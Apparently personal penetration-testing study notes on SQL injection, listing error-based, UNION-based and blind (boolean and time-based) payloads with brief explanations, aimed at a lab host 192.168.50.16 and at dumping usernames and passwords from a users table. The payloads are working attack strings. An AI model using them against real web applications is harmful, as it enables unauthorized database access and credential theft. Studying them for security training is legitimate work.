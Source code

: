 # Identifying SQLi via Error-based Payloads

`offsec' OR 1=1; -- //`
	Where // is used to provide visibility on our payload and also adds some protection against any kind of whitespace truncation the web application might employ. We can see where the comment starts. This may have error message like `Invalid Password` or something. Error may also give more specific errors like exposing info in certain columns or even hashes!

`' or 1=1 in (select @@version); -- //`
	NOTE that MySQL accepts BOTH `@@version` and `version()`. We could also try `' OR 1=1 in (SELECT * FROM users); -- //` or `' or 1=1 in (SELECT password FROM users) -- //`.  Further using `' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //`. 

# Union-based Payload

For **UNION** SQLi attacks to work, we first need to satisfy two conditions:
1. The injected **UNION** query has to include the same number of columns as the original query.
2. The data types need to be compatible between each column.

 [_LIKE_](https://www.w3schools.com/sql/sql_like.asp) keyword is used in place of WHERE but can replace the string with patterns. `a%` and `a_b_` for example where % is any number of chars and _ represents 1 char.

**The following examples assume `LIKE` and SQL errors show.** 

`' ORDER BY 1-- // 
	To find the number of correct columns. Repeat with increasing columns until we get an error.

`%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //`
	To see which columns are displayed. Then we can do `' UNION SELECT null, null, database(), user(), @@version  -- //` to enumerate certain info on the DB and knowing the last 3 columns show.

`' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //`
	To further enumerate column so we can display specific credentials with `' UNION SELECT null, username, password, description, null FROM users -- //` 

# Blind SQL Injections

The previous two injections require some kind of response that is displayed back to us. There are 2 types of blind injections:
1. Boolean-based: Behavior is inferred from whether server retuned TRUE or FALSE (inferred)
2. Time-based: Infer query results by instructing database to wait for a certain period of time

## Boolean-Based

`http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //`
	Assuming we have attempted to log in already and know where the variable is. If user exists then it will return the query positively!

`http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //`
	Similar enumeration as above injection. If user is active then the browser will hang for 3 seconds.

